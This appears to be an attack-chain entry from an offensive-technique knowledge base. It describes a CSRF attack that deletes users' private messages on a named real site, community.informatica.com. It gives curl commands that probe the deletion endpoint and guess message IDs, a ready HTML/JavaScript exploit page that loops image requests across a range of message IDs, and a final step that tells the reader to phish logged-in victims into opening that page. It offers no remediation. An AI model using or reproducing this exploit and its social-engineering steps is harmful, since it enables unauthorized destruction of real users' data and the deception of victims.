

---
tags:
  - csrf
  - web
  - data-deletion
  - informatica
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Identify-CSRF-Vulnerable-Endpoint-for-Private-Messages]]'
  - '[[procedures/Determine-Target-Message-IDs]]'
  - '[[procedures/Create-Malicious-Webpage-for-CSRF-Exploitation]]'
  - '[[procedures/Social-Engineer-Victim-to-Load-Malicious-Page]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T17:27:15.415Z'
description: >-
  A multi-stage CSRF attack that tricks authenticated users into deleting their
  private messages via a malicious webpage, leading to permanent data loss.
skill_level: intermediate
impact_level: high
id: b3444d52-3907-4d01-91e1-d56125065404
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Drive-by Compromise]]'
---
# CSRF Exploitation to Force Deletion of Private Messages on Informatica Community

Multi-stage attack chain demonstrating a complete CSRF workflow on the Informatica community platform, exploiting the lack of Referrer checks and CSRF tokens in the private message deletion endpoint.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (relies on browser and basic web development tools like a text editor)

### Target Environment

- Web platform: https://community.informatica.com
- Services: Private messaging system
- Tech stack: Java/JSP
- Network access: Public internet access to the target site

### Initial Access Requirements

- Attacker needs to create and host a malicious webpage (e.g., on a free hosting service)
- Victim must be authenticated (logged in) to the target site
- No direct credentials needed for attacker; exploits victim's session

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Endpoint
procedure: [[procedures/Identify-CSRF-Vulnerable-Endpoint-for-Private-Messages]]

**Objective**: Locate and verify the CSRF-vulnerable endpoint for deleting private messages.

**Instructions**: Analyze the site's private messaging functionality to find the deletion endpoint. Use browser developer tools or a proxy like Burp Suite to inspect requests. Test the endpoint https://community.informatica.com/pm-delete.jspa with a GET request including a messageID parameter to confirm it performs state changes without CSRF protections.

Execute a test using [[commands/curl-test-csrf-endpoint]] to simulate a forged request:

```bash
curl -X GET "https://community.informatica.com/pm-delete.jspa?messageID=123" -H "Cookie: JSESSIONID=your_session_cookie"
```

**Expected Output**: The server responds with a success or redirect indicating the message was moved to Trash, without requiring origin validation.

**Success Indicators**:
- Endpoint accepts GET requests with messageID and performs deletion
- No CSRF token or Referrer check enforced

### Step 2: Determine Target Message IDs
procedure: [[procedures/Determine-Target-Message-IDs]]

**Objective**: Identify valid message IDs belonging to the victim to target for deletion.

**Instructions**: Message IDs are global and sequential. To guess recent IDs, send a test private message to yourself on the platform and note its ID from the URL or response. Use that as a starting point (e.g., max_id) and target a range like [max_id - 50, max_id] for recent messages.

Verify a single ID using [[commands/curl-test-message-id]]:

```bash
curl -X GET "https://community.informatica.com/pm-delete.jspa?messageID=456" -H "Cookie: JSESSIONID=victim_session"
```

**Expected Output**: Successful deletion response for valid IDs; error for invalid ones.

**Success Indicators**:
- Valid IDs confirmed via test deletions
- Range covers likely victim messages

### Step 3: Create Malicious Webpage for CSRF Exploitation
procedure: [[procedures/Create-Malicious-Webpage-for-CSRF-Exploitation]]

**Objective**: Build an HTML page that automatically triggers deletion requests when loaded by the victim.

**Instructions**: Create an HTML file with JavaScript to generate multiple  tags, each with src set to the deletion endpoint and a target messageID. Host this page on an attacker-controlled server. Note: Batching multiple IDs in one request fails if any is invalid, so use sequential image loads.

Example HTML snippet (save as exploit.html and host):

```html
<!DOCTYPE html>
<html>
<body>
<script>
for (let id = 400; id <= 450; id++) {
  let img = document.createElement('img');
  img.src = 'https://community.informatica.com/pm-delete.jspa?messageID=' + id;
  document.body.appendChild(img);
}
</script>
</body>
</html>
```

Test locally by opening in a browser while logged in to the site.

**Expected Output**: Browser loads images, sending GET requests to delete messages.

**Success Indicators**:
- Page loads without errors
- Network tab shows requests to pm-delete.jspa

### Step 4: Social Engineer Victim to Load Malicious Page
procedure: [[procedures/Social-Engineer-Victim-to-Load-Malicious-Page]]

**Objective**: Trick the authenticated victim into visiting the malicious page, triggering the CSRF.

**Instructions**: Distribute the malicious URL via phishing email, social media, or forum post disguised as a relevant link (e.g., "Check this Informatica tip"). When the victim clicks and loads the page while logged in, their browser sends the forged requests using their session cookies.

Monitor indirectly via follow-up (e.g., ask if messages are gone) or if you have access to logs.

**Expected Output**: Victim's private messages moved to Trash; permanent loss after daily auto-empty.

**Success Indicators**:
- Victim reports missing messages
- Attacker confirmation via victim interaction

## Attack Chain Summary

### Key Achievements

1. Identified and verified CSRF vulnerability in message deletion endpoint
2. Targeted recent message IDs for maximum impact
3. Automated exploitation via hidden image requests in a malicious page
4. Achieved unauthorized data deletion leading to permanent loss

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Drive-by Compromise]] Drive-by Compromise

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
